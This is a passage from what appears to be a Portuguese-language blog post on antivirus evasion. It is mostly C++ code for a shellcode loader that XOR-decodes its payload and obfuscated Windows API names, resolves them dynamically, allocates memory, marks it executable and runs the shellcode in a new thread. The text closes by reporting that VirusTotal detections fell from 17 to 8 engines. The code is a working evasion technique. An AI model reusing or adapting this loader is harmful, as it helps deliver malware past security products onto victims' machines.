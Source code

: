 ```cpp
        XOR((char *) cVA, cVALen, xor_key, sizeof(xor_key));
            // deXOR do shellcode
        XOR((char *) shellcode, shellcode_size, xor_key, sizeof(xor_key));
        // deXOR da VirtualProtect
        XOR((char *) cVP, cVPLen, xor_key, sizeof(xor_key));
        // deXOR da CreateThread
        XOR((char *) cCT, cCTLen, xor_key, sizeof(xor_key));
        // deXOR da WaitForSingleObject
        XOR((char *) cWFSO, cWFSOLen, xor_key, sizeof(xor_key));
        // deXOR da RtlMoveMemory
        XOR((char *) cRM, cRMLen, xor_key, sizeof(xor_key));

        pVA = GetProcAddress(GetModuleHandle("kernel32.dll"), cVA);
        pVP = GetProcAddress(GetModuleHandle("kernel32.dll"), cVP);
        pCT = GetProcAddress(GetModuleHandle("kernel32.dll"), cCT);
        pWFSO = GetProcAddress(GetModuleHandle("kernel32.dll"), cWFSO);
        pRM = GetProcAddress(GetModuleHandle("kernel32.dll"), cRM);

        void *exec_mem = pVA(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);


        pRM(exec_mem, shellcode, shellcode_size);

        rx = pVP(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect);

        if ( rx != 0 ) {
                thread = pCT(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
                pWFSO(thread, -1);
        }

        return 0;
    }
}
```



Ao submeter no VirusTotal novamente, abaixamos a identificação de ameaça de **17** para **8** antivírus somente com as implementações feitas. 

![](/img/posts/Pasted%20image%2020240724165453.png)
